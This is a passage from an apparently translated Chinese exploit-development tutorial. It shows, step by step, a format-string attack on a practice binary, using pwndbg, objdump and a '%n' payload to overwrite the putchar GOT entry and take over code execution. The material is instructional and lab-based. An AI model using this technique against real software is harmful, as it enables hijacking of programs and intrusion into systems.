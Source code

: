 8.  当我们计划控制代码执行时，我们需要更改函数的地址。所以，让我们试着找到一个 RAM 位置来写入。为此，我们可以使用`pwndbg`查看汇编代码：

```
gdb ./fmt
disassemble main  
```

这将打印汇编代码。由此我们可以确定应用程序在`59`上调用`printf@plt`，在`72`上调用`putchar@plt`。因此我们可以将断点设置为`59`进行调试：

![](../images/00115.jpeg)

9.  正如我们所知，全局偏移表保存库函数的当前地址。因此我们可以使用`objdump`查看 GOT 中的条目：

```
objdump -R ./fmt  
```

![](../images/00116.jpeg)

由此，我们将在动态重新定位记录中获得`putchar`的位置。在这里，`08049748`，对您来说可能会有所不同。因此，请确保相应地更新脚本。

10.  现在我们可以尝试写入`putchar`PLT 条目。我们可以利用`pwndbg`来实现这一点。在`pwndbg`中打开应用程序：

```
gdb ./fmt    
```

11.  在`printf`之前和`printf`之后设置第一个断点：

```
pwndbg> break * main + 59
pwndbg> break * main + 64  
```

12.  然后使用我们的负载运行应用程序，以写入我们从`objdump`获得的`putchar`地址位置。就我而言，它是`08049748`。我们必须将地址转换为 Little Endian 格式才能与 Intel 体系结构配合使用：

```
pwndbg> run $'\x48\x97\x04\x08%x%x%x%n'  
```

这将运行到我们的第一个断点，在`printf`之前：

![](../images/00117.jpeg)

13.  然后，我们可以检查内存位置的值的当前值：

```
pwndbg> x/4x 0x08049748  
```

![](../images/00118.jpeg)

14.  然后通过键入`c`前进到下一个断点。然后再次检查内存位置：

```
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](../images/00119.jpeg)

